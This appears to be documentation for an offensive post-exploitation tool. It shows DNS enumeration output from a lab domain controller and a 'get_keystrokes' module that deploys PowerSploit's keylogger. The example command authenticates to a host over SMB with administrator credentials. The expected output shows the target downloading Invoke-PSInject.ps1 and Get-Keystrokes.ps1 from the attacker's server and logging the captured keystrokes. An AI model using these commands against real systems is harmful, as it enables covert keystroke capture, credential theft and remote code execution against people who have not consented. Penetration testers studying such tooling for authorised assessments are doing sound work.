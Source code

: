 ```
ENUM_DNS    192.168.1.110    445    DC2016A              _msdcs.ocean.depth: dc2016a.pacific.ocean.depth.
ENUM_DNS    192.168.1.110    445    DC2016A          Record Type: SOA
ENUM_DNS    192.168.1.110    445    DC2016A              _msdcs.ocean.depth: dc2016a.pacific.ocean.depth. hostmaster.ocean.depth.  8811 900 600 86400 3600
ENUM_DNS    192.168.1.110    445    DC2016A          Results for pacific.ocean.depth
ENUM_DNS    192.168.1.110    445    DC2016A          Record Type: A
ENUM_DNS    192.168.1.110    445    DC2016A              DESKTOP2.pacific.ocean.depth: 10.10.33.122
ENUM_DNS    192.168.1.110    445    DC2016A              Desktop3.pacific.ocean.depth: 192.168.1.121
ENUM_DNS    192.168.1.110    445    DC2016A              SERVER1.pacific.ocean.depth: 10.10.33.111
ENUM_DNS    192.168.1.110    445    DC2016A              SERVER2.pacific.ocean.depth: 10.10.33.112
ENUM_DNS    192.168.1.110    445    DC2016A              dc2016a.pacific.ocean.depth: 192.168.1.110
ENUM_DNS    192.168.1.110    445    DC2016A              pacific.ocean.depth: 192.168.1.110
ENUM_DNS    192.168.1.110    445    DC2016A          Record Type: NS
ENUM_DNS    192.168.1.110    445    DC2016A              pacific.ocean.depth: dc2016a.pacific.ocean.depth.
ENUM_DNS    192.168.1.110    445    DC2016A          Record Type: SOA
ENUM_DNS    192.168.1.110    445    DC2016A              pacific.ocean.depth: dc2016a.pacific.ocean.depth. hostmaster.pacific.ocean.depth.  464 900 600 86400 3600
ENUM_DNS    192.168.1.110    445    DC2016A          [*] Saved raw output to DNS-Enum-192.168.1.110-2018-11-28_173000.log

~# 
```
Output files are saved to /root/.cmx/logs/

--------------------------------------------------------------------------------------------------------------------------------------------------------
## get_keystrokes   
Executes PowerSploit's Get-Keystrokes script  
Needs to be killed manually after recieving the Got Keys! message  
using Ctrl+C  

Multiple_Host | Requires LA | Requires DA | Opsec_safe
|---|---|---|---|
true | true | false | true 

**Options:**
```
*   TIMEOUT   Specifies the interval in minutes to capture keystrokes.
    STREAM    Specifies whether to stream the keys over the network (default: False)
    POLL      Specifies the interval in seconds to poll the log file (default: 20)
```
**Example Usage:**
```
~# cmx smb 192.168.1.110 -u Administrator -p 'AAdmin!23' -M get_keystrokes -o TIMEOUT=2
```
**Expected Results:**
```
GET_KEYS...                                         [*] This module will not exit until CTRL-C is pressed
GET_KEYS...                                         [*] Keystrokes will be stored in ~/.cmx/logs

SMB         192.168.1.110    445    DC2016A          [*] Windows Server 2016 Standard Evaluation 14393 x64 (name:DC2016A) (domain:PACIFIC) (signing:True) (SMBv1:True)
SMB         192.168.1.110    445    DC2016A          [+] PACIFIC\Administrator:AAdmin!23 (Pwn3d!)
GET_KEYS... 192.168.1.110    445    DC2016A          [+] Executed launcher
GET_KEYS... 192.168.1.110                            [*] - - "GET /Invoke-PSInject.ps1 HTTP/1.1" 200 -
GET_KEYS... 192.168.1.110                            [*] - - "GET /Get-Keystrokes.ps1 HTTP/1.1" 200 -
GET_KEYS... 192.168.1.110    445    DC2016A          [+] Got keys! Stored in /root/.cmx/logs/get_keystrokes_192.168.1.110/keys_Administrator.log
^CKeyboardInterrupt
2018-11-29T20:29:28Z
```
